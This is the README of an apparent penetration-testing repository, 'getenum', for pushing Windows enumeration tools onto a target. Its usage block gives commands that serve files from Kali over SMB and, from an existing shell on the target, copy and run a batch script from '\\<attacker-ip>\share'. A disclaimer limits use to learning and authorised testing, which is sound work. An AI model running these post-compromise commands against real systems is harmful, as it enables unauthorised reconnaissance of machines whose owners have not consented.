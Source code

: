 # getenum
Windows - upload enumeration tools to target <br>
NOTE: tools are current a/o 26 April 2022 <br>
<br>
AMMEND AS APPROPRIATE FOR YOUR NEEDS...

<hr>

## USAGE

USE OF THIS TOOL ASSUMES SHELL ACCESS ON A TARGET WINDOWS MACHINE
<br>

```
# ON KALI
impacket-smbserver -smb2support share GetEnumFiles

# ON TARGET WINDOWS SHELL
mkdir c:\tmp
cd c:;\tmp

copy \\<attacker-ip>\share\getenum.bat

.\getenum.bat attacker-ip
```

<br><hr>

## HAPPENINGS

THE BATCH SCRIPT WILL CREATE C:\tmp\Enum <br>
... WILL USE SMB TO COPY FILES TO WINDOWS <br>
... USE README.txt (in Enum) TO SEE COMMANDS <br>

## DISCLAIMER

All tools included in this repo are intended for learning purposes only and are to only be used on target systems with permission of the system owner.